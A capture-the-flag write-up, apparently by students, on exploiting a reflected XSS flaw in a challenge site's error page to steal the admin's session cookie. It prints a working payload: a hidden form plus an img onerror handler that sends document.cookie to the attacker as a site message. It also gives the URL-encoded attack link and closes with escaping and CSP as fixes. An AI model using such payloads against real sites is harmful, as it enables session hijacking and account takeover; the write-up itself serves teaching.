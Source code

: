obxssession
===========

Overview
--------
For this challenge, we were given access to a website. In this website, there were a few functionalities available. Before authenticating, a user is able to read some articles about conspiracy theories, create an account and login. After authenticating, the user could also exchange messages with other users and visit his profile. The goal for the challenge was to explore the vulnerability of the website and try to get access to a private conspiracy theory that belongs to the admin.


Vulnerability
-------------
We wanted to try and use XSS to get access to the admin session cookie, so we could "pretend" to be him, and ultimately get access to the flag. So we would send some link that would have an attack written on it. However, in the introductory text of the challenge, there was a hint that the admin is very paranoid and it will only open links which the domain is the *obxssession* site. Therefore, we needed to find an endpoint in the website that allowed us to input a script, in other words, an endpoint where our input would not be preprocessed.
We could find an input vulnerability. In the page https://obxssession.is.hackthe.space/error?m=theory%20is%20private&p=/theory/5
After trying to change the value of the message m, we firstly tried to change the value of it to some random string and, afterwards, I changed it to a script with an alert function. We could see that our input was not being properly sanitized before they were embedded into the page, as our input generated a warning pop-up from the website. In other words, we have an endpoint where our input can be interpreted as code and where we can build an exploit.


Exploitation
------------
As mentioned before, our goal for this challenge was to get a hold of the admin session cookie, so we could authenticate ourselves as him. To do so, we (Ana Lino 12139847, Tiago Mota 12137605, Claudia Silva 12135542 and myself) decided to try and send a link to the admin which would have some kind of attack ãnd would return to us the session cookie. In other words, we wanted to perform a cross-site scripting(XSS) attack, more precisely a Reflected XSS attack.
The first step was to find a vulnerability that we could exploit. We started by trying to execute the following javaScript code in different endpoints:

<pre><code>
    <SCRIPT>alert(1)</SCRIPT>
</code></pre>

We could find the previously mentioned vulnerability. Now that we have an URL that we can alter, we need to develop a payload to append to it.
First, we know that after the admin opens our url, we want to receive a message from him with his session cookie. In order to do so, we took advantage of a *form*, very similar to the one that enables us to send messages to other users of the website.
We would set a receiver to be our number within the website, and to figure it out, we would look at the Page Source of the page *send message*, and see that at the time my number was 66. Other inputs, such as subject and the content could be set has some random values, as they would directly affect the outcome of our attack.
We would purposely provoke an error in the message we send (*img src=/*). As a reaction to that error that would appear after the user open the website would be a message with a document.cookie (*onerror="document.Attack.contents.value = document.cookie;document.Attack.submit();*).
The payload develop was:

<pre><code>
    p=<form name="Attack" action="/send" method="POST"> <input name="subject" value="subject random"> <input name="receiver" value=66> <input name="contents" value="somerandommessage"> </form> <img src=/ onerror="document.Attack.contents.value = document.cookie;document.Attack.submit();"></img>
</code></pre>

After url encoding this previous code, we added this to the vulnerable url, and ended with this link:
https://obxssession.is.hackthe.space/error?m=theory%20is%20private&p=/theory/5p%3D%3Cform%20name%3D%22Attack%22%20action%3D%22%2Fsend%22%20method%3D%22POST%22%3E%20%3Cinput%20name%3D%22subject%22%20value%3D%22subject%20random%22%3E%20%3Cinput%20name%3D%22receiver%22%20value%3D66%3E%20%3Cinput%20name%3D%22contents%22%20value%3D%22somerandommessage%22%3E%20%3C%2Fform%3E%20%3Cimg%20src%3D%2F%20onerror%3D%22document.Attack.contents.value%20%3D%20document.cookie%3Bdocument.Attack.submit%28%29%3B%22%3E%3C%2Fimg%3E

First, I tried to test my attack by creating another user, and sending it a message with some random subject and the content being my URL. After opening the message with this second user, they receive a message with the cookie. I repeated this, and sent a message to the admin. After a few seconds, we received a message with his cookie.
I opened the settings of my browser, changed the cookie session to the one received, and in the profile endpoint, under my theories, we could find a flag.


Solution
--------
The first step to prevent this attack would be to preprocess the user input, so that when the page of the website is open the user's input would never be interpreted as code. To do so, a programmer should implement some kind of encoding of HTML special characters (or use some good escaping library). This is done in other endpoints of the website.
We can also use CSP (Content Security Policy) that will "control which resources can be loaded by a web page". CSP can be used to block inline scripts and to prevent data from being loaded from untrusted sources. It can be used to prevent XSS attacks.
